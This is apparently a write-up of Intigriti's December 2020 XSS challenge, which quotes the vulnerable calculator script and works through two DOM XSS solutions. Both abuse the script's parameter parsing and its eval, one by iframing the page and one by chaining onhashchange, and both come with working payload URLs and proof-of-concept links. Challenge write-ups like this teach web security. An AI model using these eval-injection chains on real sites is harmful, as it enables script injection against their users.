

# Intigriti's December XSS Challenge Writeup


This month’s Intigriti’s XSS challenge was interesting as a couple of hours after [Frans Rosén](https://twitter.com/fransrosen) submitted an unintended solution, and I got interested in that one more than in the original.
<!--more-->


Challenge on webarchive [https://web.archive.org/web/20201208103813/https://challenge-1220.intigriti.io/](https://web.archive.org/web/20201208103813/https://challenge-1220.intigriti.io/).
Vulnerable script on webarchive [https://web.archive.org/web/20201210000939/https://challenge-1220.intigriti.io/script.js](https://web.archive.org/web/20201210000939/https://challenge-1220.intigriti.io/script.js).


### Solution 1

Parsing query parameters using custom function (e.g. `getQueryVariable`, line 3) allows to specify those in URL hash on line 11 (below) `window.location.href.substr(...)`, as `String.prototype.indexOf()` is looking for the first occurance of `?` (question mark):

```javascript
function init(){
  try{
    document.getElementById("result").value = calc(getQueryVariable("num1"), getQueryVariable("num2"), getQueryVariable("operator"));
  }
  catch(ex){
    console.log(ex);
  }
}
...
function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

Two of the sources (`num1` and `num2`) are passed to `setNumber` function (line 23) when clicking on a number, which itself then passes it to `parseInt` (lines 101, 104), also there is no protection against iframing it, so, having such URL [https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=eval](https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=eval) in an iframe, we can execute `parseInt=eval` as `operation` in the context of the vulnerable webpage, because `=` is whitelisted as an operator:
```javascript
const operators = ["+", "-", "/", "*", "="];
function calc(num1 = "", num2 = "", operator = ""){
  operator = decodeURIComponent(operator);
  var operation = `${num1}${operator}${num2}`;
  document.getElementById("operation").value = operation;
  if(operators.indexOf(operator) == -1){
    throw "Invalid operator.";
  }
  if(!(/^[0-9a-zA-Z-]+$/.test(num1)) || !(/^[0-9a-zA-Z]+$/.test(num2))){
    throw "No special characters."
  }
  if(operation.length > 20){
    throw "Operation too long.";
  }
  return eval(operation);
}
...
window.onload = function(){
 init();
 var numberBtns = document.body.getElementsByClassName("number");
 for(var i = 0; i < numberBtns.length; i++){
   numberBtns[i].onclick = function(e){
     setNumber(e.target.innerText)
   };
 };
 var operatorBtns = document.body.getElementsByClassName("operator");
 for(var i = 0; i < operatorBtns.length; i++){
   operatorBtns[i].onclick = function(e){
     setOperator(e.target.innerText)
   };
 };

  var clearBtn = document.body.getElementsByClassName("clear")[0];
  clearBtn.onclick = function(){
    clear();
  }
}
...
function setNumber(number){
  var url = new URL(window.location);
  var num1 = getQueryVariable('num1') || 0;
  var num2 = getQueryVariable('num2') || 0;
  var operator = getQueryVariable('operator');
  if(operator == undefined || operator == ""){
    url.searchParams.set('num1', parseInt(num1 + number));
  }
  else if(operator != undefined){
    url.searchParams.set('num2', parseInt(num2 + number));
  }
  window.history.pushState({}, '', url);
  init();
}
```

Now we can redirect the iframe to a new hash [https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=alert(document.domain)//](https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=alert(document.domain)//) and as, only, the URL hash is changed, no request is going to be sent to the server and if the user hits any number, the following script will be executed `alert(document.domain)//<number>`.

A similar technique can be leveraged when having `calc=eval` executed then redirecting to a new hash [https://challenge-1220.intigriti.io/#?num1=alert(document.domain)&operator=%3d&num2=eval](https://challenge-1220.intigriti.io/#?num1=alert(document.domain)&operator=%3d&num2=eval), where the user has to hit an operator

POCs:
- for numbers - [https://jsfiddle.net/td6yzm0w/1/](https://jsfiddle.net/td6yzm0w/1/)
- for operators - [https://jsfiddle.net/td6yzm0w/](https://jsfiddle.net/td6yzm0w/)


### Solution 2

Now the intended one, that leads to DOM XSS (Cross site swagging) with no user interaction.



Very right, because `getQueryVariable` iterates in a loop and takes the value of the last occurrence of the requested parameter (lines 5-10) 
```javascript
function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

Chain:
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&) - execute `onhashchange=init`
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval) - changing hash, triggering `onhashchange` which is `init` now and executing `calc=eval`
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval&num1=alert('achievement%20unlocked:%20unlimited%20swag%20vouchers%20'%2bdocument.domain)](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval&num1=alert('achievement%20unlocked:%20unlimited%20swag%20vouchers%20'%2bdocument.domain)) - triggering `onhashchange` and passing `alert('achievement unlocked: unlimited swag vouchers '+document.domain)` to `eval`

Now you can claim your unlimited swag voucher with 0 click:


POC: [https://jsfiddle.net/vsz08bpo/](https://jsfiddle.net/vsz08bpo/) 
